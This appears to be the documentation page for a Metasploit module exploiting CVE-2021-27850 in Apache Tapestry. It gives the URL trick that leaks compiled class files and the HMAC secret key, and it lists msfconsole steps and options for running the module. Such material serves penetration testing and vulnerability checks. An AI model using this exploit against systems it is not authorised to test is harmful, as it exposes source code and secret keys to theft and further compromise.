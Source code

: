 ## Description

This module exploit the CVE-2021-27850 which affects several versions of Apache Tapestry. The versions concerned are at least 5.4.5, 5.5.0, 5.6.2 and 5.7.0. This CVE allows an attacker to leak the source code of a such a Tapestry server by requesting a particular .class file with its name through the url with an extra "/" at the end : http://tapestryhost:8080/assets/something/services/AppModule.class/. It makes in particular possible to leak the HMAC secret key which is located by default in AppModule.class.

## Verification Steps

List the steps needed to make sure this thing works

- 1. Start `msfconsole`
- 2. `use auxiliary/server/cve_2021_27850`
- 3. `set RHOST <target_host>` and `set RPORT <target_port>`
- 4. `check` to check if the targeted Tapestry server is vulnerable or not
- 5. `set targeted_class` if you want to target another class than the default one (AppModule.class) 
- 6. `run` the module to exploit the CVE and leak the secret key !

## Options

**RHOSTS**

Set the target host. The default value is `localhost`.

**RPORT**

Set the target port. The default value is `8080` which is the default value used by Tapestry server.

**TARGETED_CLASS**

This is not a required option and by default the value is `AppModule.class` which is also the default java class of by Tapestry server where the hmac key is set. But in case you want to target a different java class, it can be done by setting this option with another class name.
